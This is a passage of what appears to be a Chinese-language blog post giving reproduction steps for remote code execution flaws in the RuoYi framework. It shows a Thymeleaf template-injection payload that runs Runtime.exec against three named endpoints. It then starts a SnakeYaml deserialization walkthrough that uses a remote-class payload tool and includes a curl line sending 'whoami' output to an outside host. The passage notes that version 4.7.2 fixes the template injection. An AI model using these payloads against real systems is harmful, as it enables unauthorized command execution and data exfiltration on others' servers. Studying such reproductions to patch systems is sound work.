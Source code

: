 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGmOFr4vzAKGiboFZVQOgwXUD8CjHeEWy9ib7ESdNRsg45nPpLGdvrM0Yw/640?wx_fmt=png&from=appmsg "")  
```
bady: **cacheName=123&fragment=${T (java.lang.Runtime).getRuntime().exec(“calc.exe”)}**
```  
  
四个接口的攻击方式一致，payload一致  
#### 接口/monitor/cache/getKeys  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGe2KDk5gfgt4JLty6TC7IINxoCsTCNPkw6OjKF03UG1QtPCrtza66WQ/640?wx_fmt=png&from=appmsg "")  
#### 接口/monitor/cache/getValue  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGORJibtPzk98NaFRdw4kbW3tzzwa2m7e6kSgr4EQ4BoH5c4M1DQeEVpA/640?wx_fmt=png&from=appmsg "")  
#### 接口/demo/form/localrefresh/task  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGq0cpLbDYKxrvT4RFSVfKIicpEVfMKeJtzOkms2KiauO31SJamich3Z9dQ/640?wx_fmt=png&from=appmsg "")  
  
修复：  
在RuoYi-4.7.2版本中，使用了thymeleaf版本3.0.14.RELEASE已无法再进行注入。  
## 定时任务远程RCE（<V-4.7.2)  
> 需要注意的是由于是从远程加载类，通常只加载一次后，就会缓存该类，之后不会再加载，因此若在测试过程中，命令没有执行成功，可重新创建定时任务，更换端口等操作多次尝试。  
  
### SnakeYaml 反序列化  
#### 简介  
- 通常只要引用了  
Snakeyaml  
包的几乎都可进行反序列化  
  
- 可查看代码是否调用   
**new Yaml()**  
;  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGtbdiaUJ249T2fnibX8TmSWvmdRZzsdChfm4sWoeGxHzibqR4XA5QduM3w/640?wx_fmt=png&from=appmsg "")  
#### 漏洞复现(V-4.2)  
- 下载yaml反序列化payload  
工具  
  
- 该工具是通过org.yaml.snakeyaml.Yaml类来加载远程的类，通过远程类重写AwesomeScriptEngineFactory类，以此来达到执行远程恶意命令的目的。  
  
下载完工具后将  
```
src/artsploit/AwesomeScriptEngineFactory.java
```  
  
文件中的  
**Runtime**  
执行语句改为你要执行的命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/RjOvISzUFq5z0RsG3VTyOD5JE01bZRzGDDeAymnn8GUECjGcAAL82CMGCXByhLt515tgmmDLpOnLygaibuG5E2Q/640?wx_fmt=png&from=appmsg "")  
  
eg:   
```
curl http://192.168.31.246:7000?CMDEcho=$(whoami)
```  
- 地址为启动任意启动的http服务，或者dnslog都可（主要用于命令回显）  
  